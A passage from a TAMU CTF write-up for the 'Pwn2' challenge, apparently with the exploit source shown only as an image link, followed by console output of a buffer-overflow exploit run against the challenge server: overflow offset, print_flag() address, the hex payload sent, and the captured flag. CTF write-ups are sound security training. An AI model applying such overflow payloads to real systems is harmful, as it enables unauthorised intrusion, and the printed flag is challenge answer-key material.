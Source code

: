 The output:
```console
root@kali:/media/sf_CTFs/tamu/Pwn2# python exploit.py REMOTE
[*] '/media/sf_CTFs/tamu/Pwn2/pwn2'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] overflow offset: 30
[*] print_flag() address: 0x6d8
[+] Opening connection to pwn.tamuctf.com on port 4322: Done
[*] Sending payload: 616161616261616163616161646161616561616166616161676161616861d8
[+] Receiving all data: Done (71B)
[*] Closed connection to pwn.tamuctf.com port 4322

This function is still under development.
gigem{4ll_17_74k35_15_0n3}
```